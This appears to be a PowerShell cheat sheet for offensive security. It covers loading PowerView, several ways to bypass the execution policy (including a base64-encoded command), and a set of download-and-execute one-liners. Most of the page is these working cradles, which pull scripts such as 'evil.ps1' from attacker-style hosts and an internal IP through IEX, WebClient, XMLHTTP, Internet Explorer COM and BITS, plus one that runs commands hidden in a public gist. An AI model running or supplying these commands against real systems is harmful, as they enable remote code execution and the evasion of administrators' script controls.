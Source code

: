 ## Loading powershell module via dot sourcing
```
. .\PowerView.ps1 # dot sourcing on current directory
```
## Powershell basic cmdlets and help system
```
Get-Command -CommandType cmdlet # Lists all available cmdlets
Get-Help <cmdlet> # Display usage about a cmdlet
Get-Help <cmdlet> -Examples # Display example usage about a cmdlet
```
### Note: 
It is concluded that, use a single quote only to print the plain text but to 
print variables and evaluating other expressions in the string, use the double 
quote in PowerShell.

## Powershell bypass Execution policy

The execution policy is safety feature that controls the conditions under which PowerShell 
loads configuration files and runs scripts. Here are sereral ways of bypassing.

```
powershell -ExecutionPolicy Bypass
powershell -ep bypass
powershell -c <command>
------------------------------------------------------------------------------------------
$string = 'IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.71/test.bat")'
$encodedcommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($string)) 
powershell -EncodedCommand $encodedCommand
------------------------------------------------------------------------------------------
$env:PSExecutionPolicyPreference="Bypass"
```

## Importing Modules

```
Import-Module <module-path>
```

## LIsting all commands in a module
```
Get-Command -Module <module-name>
```
## Download and execute files using powershell

```
IEX (New-Object Net.Webclient).downloadstring("http://webserver.com/evil.ps1")

IEX (iwr 'http://webserver.com/evil.ps1')

$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r # Uses internet explorer and prompts the user to download or save the file

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://webserver.com/evil.ps1',$false);$h.send();iex $h.responseText

$wr=[System.NET.WebRequest]::Create("http://192.168.100.71:8000/hehe.ps1");$r=$wr.GetResponse();IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

Import-Module bitstransfer;Start-BitsTransfer 'http://webserver.com/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

```
## Download and Execute using gist

First create a public gist with anything.txt as follows, enter the desired command inside <execute></execute>.

```
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
</command>

```
Then, 
```
$a = New-Object System.Xml.XmlDocument;$a.Load("https://gist.githubusercontent.com/alexdhital/d2e1627948dd1d997e614f1cfd95a75d/raw/398b4adde13b271757364825a644846865a1089f/hehe.txt");$a.command.a.execute | iex
```

